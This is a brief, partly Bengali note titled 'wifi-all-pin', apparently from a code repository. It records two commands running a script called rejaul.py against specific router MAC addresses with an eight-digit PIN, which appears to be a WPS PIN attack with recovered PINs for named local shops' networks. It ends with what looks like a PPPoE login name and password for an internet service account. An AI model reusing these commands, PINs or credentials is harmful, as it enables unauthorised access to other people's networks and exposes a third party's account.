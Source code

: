# wifi-all-pin
একটু স্লো দোকানের  sudo python rejaul2712/rejaul.py -i wlan0 -b 84:D8:1B:AA:9D:A8 -B -p 06273385


 saim slow-BD, বাগিনা sudo python rejaul2712/rejaul.py -i wlan0 -b CC:2D:21:62:13:58 -B -p 55157698

saim:-Router PPoe
100886@naim.sol-bd.com
1122
